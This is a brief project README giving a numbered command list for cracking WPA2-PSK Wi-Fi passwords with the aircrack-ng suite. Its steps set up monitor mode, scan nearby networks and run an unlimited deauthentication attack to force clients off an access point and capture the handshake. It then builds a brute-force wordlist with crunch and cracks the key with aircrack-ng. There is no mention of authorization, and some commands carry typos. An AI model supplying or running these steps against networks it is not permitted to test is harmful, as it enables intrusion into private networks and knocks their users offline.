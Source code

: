 # WPA2-PSK-Password-using-Aircrack-Ng-Hashcat
This project focuses on WPA2-PSK cracking using Aircrack-ng or Hashcat which utilize both CPU and GPU
# Command List
1)sudo su for root directory

2)ip addr” is used to find the available IP addresses

3)“iwconfig” is used to display and change the parameters of the network interface which are specific to the wireless operation.

4)“airmon-ng check” is used to check for available processes that are running in the interface

5)“airmon-ng check kill” command is used to kill the processes that might interfere 

6)“airmon-ng” start wlan0(device name)

7)“airodump-ng wlan0mon” This command gives all available 
networks in our surroundings

8)airodump-ng -w capture -c 11 –bssid (BSSID) wlan0mon” command is used to 
capture a particular network AP.

9)“airplay-ng --deauth (which is DE authentication) 0 -a BSSID 
and interface”. This command is used to deauthenticate clients that are connecting to our network. 
When they are deauthenticated the result is a handshake which can be saved as a capture file and 
can be accessed through Wireshark application

10)“crunch <min_length> <max_length> <character_set> -o <output_file>” for wordlist creation 

11)"aircrack-ng <.cap file name> -w <output_file for which we created crunch wordlist>” to start cracking the AP using wordlist






